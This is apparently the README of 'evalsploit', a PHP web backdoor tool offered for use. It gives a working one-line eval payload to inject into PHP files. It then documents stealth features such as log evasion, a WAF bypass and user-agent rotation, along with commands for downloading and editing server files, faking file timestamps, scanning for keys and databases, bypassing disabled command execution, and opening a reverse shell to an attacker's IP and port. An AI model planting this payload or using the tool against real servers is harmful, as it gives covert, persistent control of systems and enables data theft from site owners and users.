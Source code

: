# evalsploit
Backdoor based on the `eval' function


### Features

-   **Stealth**
    -   Works on POST requests, practically invisible to logs
    -   Built-in WAF bypass
    -   New user agent every new session
    -   Stealth operation setting


-   **Universal**
    -   Payload can be injected in any part of the php code
    -   Suitable for working with servers on Linux, Windows, Mac OS

# Manual

#### Getting started

1) Use the payload to infect PHP or as an independent shell:
`if(isset($_POST['Z'])){@eval(base64_decode(str_replace($_POST['V'], '' ,$_POST['Z'])));die();}`
3) When starting the program, evalsploit will require a link to the file with the payload
4) When changing the `send` module (see "program setup"), use the `gen` command to generate a new payload

#### Working with the file system

-   `ls`: list of files in the directory
	-   Setting `ls`: based on the DirectoryIterator function (stands by default)
	-   Setting `dir`: based on the ScanDir function

-   `cp`: copying files
    -   Use the separator ` : ` (/what.txt : /where/what.txt )

-   `cd`: moving through the file system

-	`mkd`: create a new directory

-	`upl`: upload a file to the server

-	`home`: back to \_\_DIR\_\_

-	`pwd`: print the active directory

#### Working with files

-   `cat`: print the file contents
    -   Setting `html`: based on the htmlentities function
	-   Setting `base64`: based on the base64_encode\base64_decode function (set as default)

-   `rm`: delete file

-   `dl`: download file (to the /download folder)
	-	Does not work well with files larger than 100 MB
	
-   `edit`: edit file contents
	-	Does not work well with files larger than 100 MB

-	`mkf`: create new file

-	`touch`: change file datestamp
	-	Use the ` set time ` separator (file.рhр settime Year-Month-Day Hour:Minute:Second)

-	`stat`: file information

-	`ren`: rename file
	-	Use the separator ` : ` (/where/old.txt : new.php )


#### Working with the evalsploit system

-   `run`: switch to command line mode
	-	`exit` to exit the mode
	-	Supports exec, shell_exec, system, passthru, popen, proc_open, expect_popen, pcntl_exec, do
	
-	`info`: server informtion
	-	php version, OS
	
-	`scan`: scanning the selected directory
	-	Search for system PHP, databases, keys etc
	
-	`exploit`: bypassing disabled command line with built-in exploits, activates the command line mode
	-	`exit` to exit the mode

-	`reverse`: reverse-shell - `reverse IP:PORT`
	
-	`gen`: generating a payload depending on the send module
	
-	`help`: home screen
	
-	`exit`: exit
	
	
	
#### Program Setup

-	`set`: configuring modules. To view the list of parameters use `set module help`
	-	Instead of `help` acceptable `-h`, `h`, `?`, `/?`)
	-	**run**: `exec`, `shell_exec`, `system`, `passthru`, `popen`, `proc_open`, `expect_popen`, `pcntl_exec`, `do`
	-	**ls**: `ls`, `dir`
	-	**cat**: `html`, `base64`
	-	**silent**: `1`, `0` (Stealth)
	-	**reverse**: `ivan`, `monkey` 
	-	**send**: `bypass`, `classic`, `simple` (send mmodule)
	
